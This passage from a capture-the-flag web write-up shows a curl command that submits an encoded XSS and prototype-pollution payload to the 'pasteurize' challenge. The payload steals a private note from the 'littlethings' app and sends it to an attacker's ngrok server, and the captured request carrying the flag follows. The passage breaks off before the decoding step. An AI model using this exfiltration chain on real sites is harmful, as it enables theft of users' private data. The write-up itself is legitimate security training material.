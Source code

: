 So `22f23db6-a432-408b-a3e9-40fe258d500f` is the private note GUID.

### Get the contents of the private note

Now all we should have to do is change the url in our payload, and we should get the contents of the private note.

```sh
╭─zoey@virtual-parrot ~ 
╰─$ curl 'https://pasteurize.web.ctfcompetition.com/' --data-raw 'content[]=;window.name=atob(`eyJfX3Byb3RvX18iOiB7fSwidGhlbWUiOiB7ImNiIjogImRvY3VtZW50LmJvZHkuZmlyc3RFbGVtZW50Q2hpbGQuaW5uZXJIVE1MPXdpbmRvdy5uYW1lLnRvU3RyaW5nIn0sImltZyI6ICIvIiwicGF5bG9hZCI6IFsiPGZvcm0gaWQ9J2NvbmNhdCc%2BaHR0cHM6Ly9jOGI1Y2ZiNzcxYTUubmdyb2suaW8vPzxkaXY%2BPC9kaXY%2BPC9mb3JtPiIsIjxpZnJhbWUgc3JjZG9jPSc8c2NyaXB0IHNyYz0vdGhlbWU%2FY2I9d2luZG93LnRvcC5jb25jYXQuZmlyc3RFbGVtZW50Q2hpbGQuaW5uZXJUZXh0PXdpbmRvdy50b3AuZG9jdW1lbnQuYm9keS5pbm5lclRleHQudG9TdHJpbmc%2BPC9zY3JpcHQ%2BJz48L2lmcmFtZT4iLCI8aWZyYW1lIHNyY2RvYz0nPHNjcmlwdCBzcmM9L3RoZW1lP2NiPXdpbmRvdy50b3AubG9jYXRpb24uaHJlZj13aW5kb3cudG9wLmNvbmNhdC5pbm5lclRleHQudG9TdHJpbmc%2BPC9zY3JpcHQ%2BJz48L2lmcmFtZT4iXX0%3D`);if(navigator.userAgent.includes(`Headless`))location.href=`https://littlethings.web.ctfcompetition.com/note/22f23db6-a432-408b-a3e9-40fe258d500f?__debug__`;//'
Found. Redirecting to /8d52d02b-e4ff-4939-8a42-096d1d46e295
```

Now lets visit the note we created at `https://pasteurize.web.ctfcompetition.com/8d52d02b-e4ff-4939-8a42-096d1d46e295` and report our payload to TJMike.  It might take a few tries for the timings of the callbacks to line up properly.  If done right, your http server should get a request similar to the following

```http
GET /?{%22__proto__%22:%20{},%22theme%22:%20{%22cb%22:%20%22document.body.firstElementChild.innerHTML=window.name.toString%22},%22img%22:%20%22/%22,%22payload%22:%20[%22https://0b7660a35154.ngrok.io/?%22,%22%22,%22%22]}22f23db6-a432-408b-a3e9-40fe258d500fCongratulations!%20You%20came%20to%20the%20end%20of%20the%20world...As%20for%20a%20reward,%20here%20comes%20your%20juicy%20flag%20CTF{When_the_w0rld_c0mes_t0_an_end_all_that_matters_are_these_little_things}Bored?%20Check%20out%20the%20fixed%20version%20https://fixedthings-vwatzbndzbawnsfs.web.ctfcompetition.com%20BUT%20IT%27S%20NOT%20SCORED!%20I.E.%20worth%200%20points%20and%20does%20not%20appear%20in%20challengesback
Host: 0b7660a35154.ngrok.io
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4182.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://littlethings.web.ctfcompetition.com/note/22f23db6-a432-408b-a3e9-40fe258d500f?__debug__
Accept-Encoding: gzip, deflate, br
X-Forwarded-Proto: https
X-Forwarded-For: 104.155.55.51
```

When we decode it and clean it up we get:
